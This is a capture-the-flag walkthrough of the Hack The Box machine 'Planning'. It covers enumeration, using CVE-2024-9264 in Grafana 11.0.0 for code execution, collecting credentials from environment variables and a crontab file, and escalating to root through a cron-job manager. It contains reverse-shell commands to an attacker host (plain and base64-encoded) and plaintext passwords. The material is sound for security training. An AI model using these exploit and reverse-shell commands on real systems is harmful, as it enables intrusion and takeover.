 ```yaml
---
name: Planning
difficulty: easy
os: linux
platform: htb
date: 2025/07/02
# releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.68 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This website redirects us to `http://planning.htb`, so it is necessary to add the domain to our `/etc/hosts` file:

```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

We will try to detect the web application framework using `whatweb`:

```bash
whatweb http://planning.htb
```

```
http://planning.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```

We will do a directory enumeration scan using `gobuster` to enumerate the web application:

```bash
gobuster dir -u http://planning.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

As nothing interesting was found in directory enumeration and web application content, we will proceed with subdomain enumeration using `ffuf`:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -fs 0
```

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 237ms]
```

We should add the subdomain `grafana.planning.htb` to our `/etc/hosts` file:

```bash
10.10.11.68 planning.htb grafana.planning.htb
```

## User Exploitation

We access grafana at `http://grafana.planning.htb` and we are greeted with a login page.
We can log in using credentials given in the description of the machine:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

We can check grafana version in `http://grafana.planning.htb/api/health`, we see that is running version `11.0.0`

We can use `https://github.com/nollium/CVE-2024-9264` to exploit a vulnerability in Grafana 11.0.0 that allows us to execute arbitrary code.
We clone the repository and run the exploit:

```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c <shell-cmd> http://grafana.planning.htb
```

We will encode base64 the following code to get a reverse shell:

```bash
echo "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1" | base64
```

Then we run the exploit with the encoded command:

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQ0NCAwPiYxCg | base64 -d | bash'  http://grafana.planning.htb
```

We are in a Docker container. We can check by running the following command:

```bash
hostname -I
```

```
172.17.0.2
```

We can get credentials on ENV variables:

```bash
env
```

```
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

We can use these credentials to login via ssh

```bash
ssh enzo@planning.htb
```

We can find the user flag in the home directory:

```bash
cat /home/enzo/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `enzo` has sudo privileges:

```bash
sudo -l
```

```
Sorry, user enzo may not run sudo on planning.
```

We run `linpeas` to check for privilege escalation vectors:

```bash
./linpeas.sh
```

Found /opt/crontabs/crontab.db: New Line Delimited JSON text data

```json
{
    "name": "Grafana backup",
    "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
    "schedule": "@daily",
    "stopped": false,
    "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
    "logging": "false",
    "mailing": {},
    "created": 1740774983276,
    "saved": false,
    "_id": "GTI22PpoJNtRKg0W"
}
```

Also found a service running on port 8000, which is not accesible from outside the machine. We do a port forwarding to access it:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

We can access the service at `http://localhost:8000` and we are greeted with a login page. We can log in using the credentials we found in the crontab:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

We can see a web interface that allows users to manage crontab jobs which will be runned by root. We can create a new job that will create a reverse shell for us. We can use the following command to create a new job:

```bash
bash -c "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1"
```

Once the job is created we can run it by clicking on the "Run" button. This will execute the command as root and give us a reverse shell.

We get access to the root reverse shell:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrated how to exploit a vulnerable Grafana instance to gain user access and then escalate privileges to root using a custom cron job. The process involved enumeration, exploiting a known vulnerability, and leveraging Docker container management to achieve the final goal of obtaining the root flag.
